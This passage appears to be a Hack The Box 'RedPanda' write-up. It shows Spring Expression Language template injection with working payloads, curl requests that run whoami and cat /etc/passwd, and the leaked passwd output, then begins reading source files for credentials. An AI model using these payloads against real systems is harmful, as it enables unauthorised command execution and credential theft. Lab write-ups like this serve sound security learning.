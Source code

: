 SSTI with asterisk works. More searching found a script [here](https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py) that let's us do RCE:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# python3 ./ssti.py         
Command ==> whoami
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}
```

Remember to change the $ to a *, now send it with curl

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}' 'http://10.10.11.170:8080/search' | grep 'for:'

    <h2 class="searched">You searched for: woodenk
```

That worked, how about the passwd file:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# python3 ./ssti.py         
Command ==> cat /etc/passwd
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec
(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat<SNIP>

┌──(root㉿kali)-[~/htb/redpanda]
└─# curl -i -s -k -X POST --data-binary 'name=*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec<SNIP>(T(java.lang.Character).toString(100))).getInputStream())}' 'http://10.10.11.170:8080/search' | grep -A 999 'for:' | grep bash

    <h2 class="searched">You searched for: root:x:0:0:root:/root:/bin/bash
woodenk:x:1000:1000:,,,:/home/woodenk:/bin/bash
```

We see just root and woodenk can login.

I'm pretty sure the box author did this to make the enumeration process as painful as possible, but eventually by using the above method to look around I found credentials.

Create the ssti payload using the script:

```sh
┌──(root㉿kali)-[~/htb/redpanda]
└─# python3 ./ssti.py
Command ==> cat /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.(106)).
<SNIP>
```
